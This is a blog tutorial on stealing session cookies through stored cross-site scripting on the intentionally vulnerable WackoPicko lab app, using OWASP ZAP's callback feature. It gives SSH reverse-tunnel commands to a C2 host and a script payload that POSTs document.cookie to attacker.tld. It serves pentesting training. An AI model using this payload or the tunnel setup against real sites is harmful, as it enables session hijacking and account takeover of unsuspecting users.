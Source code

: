 +++
author = "Anthony Cozamanis"
title = "Exploiting Cross-Site Scripting to Steal Cookies with OWASP ZAP"
date = "2023-05-13"
description = "In this brief piece, you'll learn about using OWASP ZAP to obtain Cookies through XSS."
tags = [
    "owsap",
    "zap",
    "pentesting",
]
categories = [
    "themes",
    "syntax",
]
series = ["OWASP ZAP"]
aliases = ["xss-with-zap-cookies"]
+++

Using cross-site scripting (XSS) to steal cookies is a common method of exploitation as cookies are widely used by web applications for session management. With some XSS vulnerabilities, an attacker can forward the victim's cookies to their own domain, manually insert them into their browser, and assume the victim's identity.

However, there are several limitations to this approach in practice, including the possibility that the victim is not logged in, that cookies are hidden from JavaScript using the HttpOnly flag, that sessions are locked to additional factors such as the user's IP address, and that the session might time out before it can be hijacked.

In this scenario, a simulated victim user views comments on a WackoPicko blog after they are posted, which activates the persistent XSS, causing the user's cookies to be sent to a host controlled by the attacker. The following example leverages OWASP ZAP.

![e8bba8fb1f1846b61738e8c2bca29515.png](/img/e8bba8fb1f1846b61738e8c2bca29515.png)

- Access your remote C2 server via SSH and modify `/etc/ssh/sshd_config` so the following are enabled:
```
AllowTcpForwarding yes
GatewayPorts yes
```
- Restart sshd with systemd:
```
sudo systemctl restart ssh
```
- From your attacking machine, create a tunnel via SSH from the remote server so that anything that hits port 38193 will be redirected to the attacker's instance of ZAP
```
ssh -N -R 38193:localhost:38193 user@attacker.tld
```
- Going back to ZAP, open the Options menu and go to the go to "Callback Address" entering the following:

![c0189e9bd3e534db36df492376038540.png](/img/c0189e9bd3e534db36df492376038540.png)

- Go back to the Guestbook and submit the following payload in a blog comment, inserting your Test URL:
```js
<script>
fetch('http://attacker.tld:38193/ZapTest', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
- This script will make anyone who views the comment issue a POST request to `http://attacker.tld:38193/ZapTest` containing their cookie.
- Go back to the Callbacks tab (which you may need to add)

![ba01af62bf03c39585378ce49a4de12b.png](/img/ba01af62bf03c39585378ce49a4de12b.png)

You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds.

![b5f0caabe46fa3b6cacfb7e258bb4c07.png](/img/b5f0caabe46fa3b6cacfb7e258bb4c07.png)

- Take a note of the value of the victim's cookie in the POST body.